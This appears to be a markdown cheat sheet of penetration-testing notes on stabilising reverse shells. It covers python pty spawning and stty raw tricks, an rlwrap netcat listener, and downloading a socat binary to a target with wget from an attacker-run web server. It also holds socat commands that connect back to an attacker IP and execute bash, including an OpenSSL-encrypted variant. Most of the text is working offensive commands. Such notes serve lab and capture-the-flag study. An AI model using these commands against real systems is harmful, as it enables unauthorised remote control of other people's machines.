 1. `python -c 'import pty;pty.spawn("/bin/bash")'` - spawn a better featured shell (might need `python3` at the start)
2. `export TERM=xterm` - give access to commands list `clear`
3. `CTRL-Z` then `stty raw -echo; fg` - Ctrl-z to background the shell, turn off our own terminal echo, then fg the shell.  This gives us things like auto complete, arrow keys, CTRL-C to kill the process without killing the shell etc

If the shell dies then type `reset` to get local echo back

### rlwrap
This needs to be installed locally then when starting the listener
`rlwrap nc -lvnp <port>`

Useful for windows targets.  For linux step 3 of the Python option above is another option

### socat
This only works in Linux targets

Need to transfer a [socat static binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) to the target.  One way to do this is to start a web server locally `sudo python3 -m http.server 80` then on the target machine download the file `wget <LOCAL-IP>/socat -O /tmp/socat`

To create a reverse shell
(connects a listening port and standard input)
```
socat TCP-L:<port> -
```

For a more stable shell use socat with tty
```
socat TCP-l:<port> FILE:`tty`,raw,echo=0
```
then activate with
```
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

To use an encrypted shell:
Generate pem:
```
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
cat shell.key shell.crt > shell.pem
```
Set up shell:
```
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```
Then connect from attacking machine:
```
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

### terminal tty size
Match the tty size of the remote shell - can help with things like text editors
